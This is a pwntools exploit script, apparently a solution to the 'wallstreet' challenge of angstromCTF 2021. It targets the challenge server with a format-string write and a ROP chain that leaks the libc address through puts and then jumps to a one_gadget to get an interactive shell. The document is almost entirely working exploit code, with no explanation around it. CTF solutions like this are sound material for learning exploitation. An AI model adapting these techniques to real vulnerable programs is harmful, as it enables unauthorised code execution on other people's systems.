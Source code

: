 ```python
from pwn import *

e = ELF("./wallstreet")
libc = ELF("./libc-2.32.so")
#ld = ELF("./ld-2.32.so")

context.binary = e
context.terminal = ["konsole", "-e"]

#p = process([e.path])
p = remote("pwn.2021.chall.actf.co", 21800)
#p = remote("localhost", 21800)

context.log_level="debug"
gdb.attach(p, """break * buy_stonks+195\nbreak * buy_stonks+382\nc""")




p.sendlineafter("!", "1")



p.sendlineafter("!", "68")


poprdi = 0x00000000004015c3
csu1 = 0x00000000004015a0
csu2 = 0x00000000004015ba
ret = 0x000000000040101a

chain = p64(poprdi) + p64(e.got["puts"]) + p64(e.plt["puts"]) + \
        p64(csu2) + p64(0) + p64(1) + p64(0) + p64(0x404210) + p64(0x100) + p64(0x4000f8) + \
        p64(csu1) + p64(0)*6 + p64(0) + p64(e.plt["read"]-4) + \
        p64(ret) * 16 + p64(ret)[:3]


p.sendafter("?", ("%{}c%73$lln" + chain).format(e.sym["user_buf"]+8))

for i in range(5):
    p.recvline()

libc.address = u64(p.recv(6).ljust(8, "\x00")) - 0x80d90

print("libc", hex(libc.address))


og = 0xdf54c

chain2 = p64(libc.address + og)


p.send(chain2)

p.interactive()
```

